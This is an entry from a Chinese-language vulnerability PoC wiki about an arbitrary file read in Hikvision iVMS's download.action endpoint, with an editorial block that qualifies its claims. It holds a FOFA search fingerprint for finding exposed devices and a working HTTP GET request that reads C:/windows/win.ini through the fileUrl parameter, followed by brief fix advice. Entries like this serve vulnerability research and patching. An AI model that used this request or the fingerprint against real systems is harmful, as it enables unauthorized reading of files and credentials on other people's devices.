

#  海康威视iVMS download.action任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision iVMS/EPS
- 本文讨论：triggerSnapshot/download.action fileUrl本地URL读取
- 版本、权限与配置前提：Windows，MicroMessenger UA，无Cookie示例；版本未知
- 资料类型：文件读取PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- win.ini证明文件读不等于已取得数据库敏感信息
- 在野利用已知/影响广无来源；版本笼统iVMS，元数据残缺
- 与877 api/download带token不同路由/鉴权，先关联不直接等同
- 已落实的文本修订：HTTP 报文围栏改为 http；残缺指纹退出可执行索引并保留原值。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 实际认证、UA作用、版本和在野证据待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


# 漏洞描述

海康威视iVMS download.action 存在任意文件读取漏洞，未授权的攻击者可获取数据库敏感信息。

# 影响版本

海康威视iVMS

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/home/locationIndex.action?time=" || header="ISMS_8700_Sessionname"

POC/EXP：

```http
GET /eps/triggerSnapshot/download.action?fileUrl=file:///C:/windows/win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: MicroMessenger
```




# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
